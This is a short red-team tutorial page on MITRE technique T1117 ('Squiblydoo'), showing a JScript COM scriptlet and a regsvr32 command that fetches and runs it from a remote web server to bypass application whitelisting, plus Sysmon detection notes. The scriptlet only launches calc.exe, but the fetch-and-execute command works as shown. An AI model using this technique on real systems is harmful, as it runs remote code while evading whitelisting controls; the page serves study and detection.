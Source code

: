 ```yaml
---
layout: post
title: "t1117 regsvr32 aka squiblydoo"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-execution/
---
```


---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---

# regsvr32

## Execution

{% code title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](<../../.gitbook/assets/regsvr32-commandline (1).png>)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}
@spotheplanet

